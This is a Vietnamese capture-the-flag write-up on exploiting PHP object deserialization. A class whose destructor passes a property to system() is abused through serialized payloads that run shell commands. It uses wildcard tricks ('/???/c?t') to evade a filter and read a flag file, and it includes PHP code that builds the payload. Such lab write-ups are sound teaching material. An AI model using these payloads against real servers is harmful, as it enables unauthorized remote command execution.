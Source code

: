 Trước hết, khi nhìn vào source code của chương trình, ta thấy chương trình nhận vào một biến $_GET['payload'], challenge này thuộc dạng khai thác lỗ hổng Deserialize
nên ta sẽ truyền payload vào trong biến GET trên URL.

Nguyên văn class ban đầu của chương trình:

```PHP
class exploit_me
{
    public $cmd;
    public function __destruct(){
        system($this->cmd);
    }
}
```

Ta thấy để khai thác được lỗ hổng này thì ta cần truyền vào một biến cmd là câu lệnh sẽ được chạy trong hàm system của PHP

Nếu vậy thì đối với challenge này, ta sẽ cần đọc file flag.txt (dự đoán) đang nằm ở đâu đó trong hệ thống file của máy chủ chạy trang web này

Ta sẽ thử với payload như sau:

```
O:10:"exploit_me":1:{s:3:"cmd";s:2:"ls";}
```
Ta thấy đối với payload này, trang web không trả về kết quả nào, do trang web và hệ thống host đã có cơ chế chống thực thi trong webshell

Để bypass trường hợp này, ta cần sử dụng các ký tự đặc biệt cũng như các payload đặc biệt.

Ta sẽ thực hiện list tất cả các file nằm ở thư mục / (root) của hệ thống bằng payload:

```
O:10:"exploit_me":1:{s:3:"cmd";s:10:"/???/d?r /";}
```

Như vậy ta thấy hệ thống file được hiển thị ra, ta cần nội dung file ```a8749209e3d652e_flag```, do đó ta sẽ đổi payload sang:

```
O:10:"exploit_me":1:{s:3:"cmd";s:30:"/???/c?t /a8749209e3d652e_flag";}
```

Code PHP tạo payload:

```PHP
class exploit_me
{
    public $cmd = "/???/c?t /a8749209e3d652e_flag";
    public function __destruct(){
        system($this->cmd);
    }
}

$a = new exploit_me();
file_put_contents("payload", serialize($a));
```



